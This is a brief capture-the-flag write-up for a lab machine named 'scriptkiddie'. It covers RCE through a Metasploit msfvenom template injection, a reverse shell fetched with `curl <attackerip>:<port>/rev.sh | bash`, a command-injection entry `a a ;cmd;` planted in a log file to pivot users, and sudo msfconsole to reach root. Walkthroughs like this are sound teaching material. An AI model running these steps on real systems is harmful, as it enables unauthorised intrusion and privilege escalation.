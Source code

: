 scriptkiddie
---

## Steps

1. nmap to find port 5000, metasploit vulnerability

going to port 5000, we see some services

one of the service allows you to upload a template.

there is an exploit for this that allows RCE: https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

2. Reverse shell

we host a rev.sh, which calls a reverse shell

RCE to execute `curl <attackerip>:<port>/rev.sh | bash`

read user.txt


## Root Flag

1. PWN user

we see another user pwn, and he can run `/home/pwn/scanlosers.sh`, which reads from the file `/home/kid/logs/hacker`

putting a malformed entry `a a ;cmd;` in the file `hacker`, we can run any command as `pwn`. do this to get a reverse shell as pwn

2. sudo

pwn and run `sudo msfconsole`

from there, `cat /root/root.txt`
